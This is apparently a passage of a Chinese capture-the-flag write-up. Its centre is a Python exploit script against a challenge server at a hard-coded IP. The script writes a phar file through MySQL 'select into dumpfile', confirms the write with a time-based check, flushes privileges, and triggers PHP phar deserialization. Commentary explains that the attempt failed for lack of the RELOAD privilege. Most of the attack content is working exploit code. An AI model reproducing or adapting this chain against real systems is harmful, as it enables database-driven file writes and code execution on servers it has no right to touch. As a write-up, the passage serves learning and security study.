 exp.py

```python
import re
import requests, string, random, os, time

url = "http://101.35.114.107:10047"
#url = "http://124.71.205.170:10047"


def req(key, value):
    resp = requests.get(url + "/index.php/", params={'key': key, 'value': value})
    return resp


def exp(secure_file_path):
    filename = "".join(random.sample(string.ascii_letters, 6)) + '.phar'
    file = os.path.join(secure_file_path, filename)

    # write phar file
    hex_data = open("phar.phar", "rb").read().hex()
    command = "select 0x{} into dumpfile '{}'".format(hex_data, file)
    req('3', command)

    # check file exists
    command = "select if((ISNULL(load_file('{}'))),sleep(2),1)".format(file)
    if req('3', command).elapsed.seconds > 1.5:
        print("file write fail!")
        exit()

    # clean the cache
    flush = req('3',"FLUSH PRIVILEGES")
    print(flush.text)
    time.sleep(2)

    # trigger unserialize
    resp = req('29', 'phar://' + file)
    print("unser: " + resp.text)


if __name__ == '__main__':
    secure_file_path = '/tmp/e10adc3949ba59abbe56e057f20f883e/'
    exp(secure_file_path)
```

结果发现可以写phar，但是反序列化失败，原因是RELOAD没有被授权给mysql，所以无法FLUSH PRIVILEGES，就无法清除缓存

```bash
mysql -u root -e "CREATE USER '$MYSQL_USER'@'%' IDENTIFIED BY '$MYSQL_PASS';";
mysql -u root -e "GRANT SELECT on mysql.* to '$MYSQL_USER'@'%';FLUSH PRIVILEGES;";
mysql -u root -e "GRANT FILE on *.* to '$MYSQL_USER'@'%';FLUSH PRIVILEGES;";
```

因为倒霉的权限，改密码来强制清空缓存也是不现实的
